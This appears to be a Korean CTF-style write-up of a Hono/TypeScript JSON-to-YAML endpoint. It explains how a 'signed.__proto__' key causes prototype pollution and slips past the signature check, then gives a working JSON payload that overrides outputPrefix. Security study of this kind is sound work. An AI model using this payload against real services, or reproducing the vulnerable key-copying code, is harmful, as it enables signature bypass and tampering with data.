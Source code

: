 ```typescript

const getSignedData = (data: any): any => {
  const signedParams: any = {};
  for (const param in data) {
    if (param.startsWith(SIGNED_PREFIX)) {
      const keyName = param.slice(SIGNED_PREFIX.length);
      signedParams[keyName] = data[param];
    }
  }
  return signedParams;
};

...

app.post('/convert-to-yaml',
  bodyLimit({
    maxSize: 50 * 1024, // 50kb limit
  }),
  zValidator('json', requestSchema),
  (c) => {
    try {
      const body = c.req.valid('json');
      const data = body.data;
      const signedData = getSignedData(data)
      const signature = body.signature;
      if (!hasValidSignature(signedData, signature)) {
        return c.json({ msg: "signatures do no match!" }, 400);
      }
      const outputPrefix = z.string().parse(signedData.outputPrefix ?? "prisoner");
      const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
      if (convertJsonToYaml(data, outputFile)) {
        return c.json({ msg: outputFile });
      } else {
        return c.json({ msg: "failed to convert JSON" }, 500);
      }
    } catch (error) {
      console.error(error);
      return c.json({ msg: "why you send me a bad request???" }, 400);
    }
  }
);
```        
JSON 데이터를 입력받아 `getSignedData()` 함수에서 `signed.`로 시작하는 키와 값을 객체에 저장한다. 만일 유저가 키 이름을 `signed.__proto__`로 설정하면, `signedParams[__proto__] = data[param]` 구문이 실행되어 Prototype Pollution 취약점이 발생한다. 추가적으로, `getSignature()`에서 `Object.entries()`를 사용하고 있어 `__proto__` 객체 속성 값은 포함이 되지 않기 때문에 `hasValidSignature()`로 객체 데이터를 검증 또한 우회가 가능하다.  

```json
{
    "data": {
        "signed.name": "jeff",
        "signed.animalType": "emu",
        "signed.age": 12,
        "signed.crime": "assault",
        "signed.description": "clotheslined someone with their neck",
        "signed.start": "2024-03-02T10:45:01Z",
        "signed.release": "2054-03-02T10:45:01Z",
        "signed.__proto__": {
            "outputPrefix": "hacked"
        }
    },
    "signature": "5c9396d88b7765d1c69dd949adfcc1f82ed766cbf534c16297eed346a4b453f5"
}
```          